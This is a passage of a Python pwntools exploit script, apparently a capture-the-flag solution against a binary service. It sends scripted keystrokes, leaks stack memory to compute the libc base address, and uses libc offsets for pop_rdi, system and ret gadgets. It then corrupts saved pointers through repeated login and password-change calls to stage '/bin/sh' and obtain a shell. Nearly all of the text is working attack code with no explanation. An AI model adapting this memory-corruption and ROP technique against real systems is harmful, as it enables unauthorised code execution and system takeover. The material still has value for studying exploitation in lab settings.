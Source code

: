```python
        cal_next[(20, i)] = (20, i+1)
        cal_next[(4, i+1)] = (4, i)

    ret_s = ''
    ox, oy = O[0][0], O[0][1]
    #ex, ey = E[0][0], E[0][1]
    for i in range(12):
        ret_s += '\n'
    for i in range(2):
        ret_s += 's'
    ox = 20

    while 1:
        if ox == 4 and oy == I[0][1]:
            for i in range(16):
                ret_s += 's'
            ox = 20
            I = I[1:]
            if len(I) == 0:
                break
        else:
            next_pos = cal_next[(ox, oy)]
            if next_pos[0] < ox:
                ret_s += 'w'
            elif next_pos[0] > ox:
                ret_s += 's'
            elif next_pos[1] < oy:
                ret_s += 'a'
            else:
                ret_s += 'd'
            ox, oy = next_pos[0], next_pos[1]
    r.send(ret_s.encode() + b'fff')
    sleep(1)
    r.sendline(b'\n\n\ny')
    sleep(0.2)
        
def get_stack_data():
    global r
    r.sendlineafter(b'Choice : \r\n', b'6')
    r.recvuntil(b'email :')
    leak_data = r.recvn(0xc0)
    libc_base = u64(leak_data[0xa8:0xb0]) - 0x29d90
    another_addr = u64(leak_data[0xb8:0xc0])

    return libc_base, another_addr

def attack(main_rbp, libc_base, another_addr):
    pop_rdi = libc_base + 0x2a3e5
    system = libc_base + 0x50d70
    ret = libc_base + 0x29139
    change_pw(p64(main_rbp) + b'\x08')
    logout()

    login(b'admin', p64(1))
    change_pw(b'/bin/sh')
    logout()
    print('11111111111111')

    login(b'Welcome!', p64(main_rbp) + b'\x07')
    change_pw(p64(main_rbp + 8) + b'\x08')
    logout()

    login(b'admin', p64(libc_base + 0x29d90))
```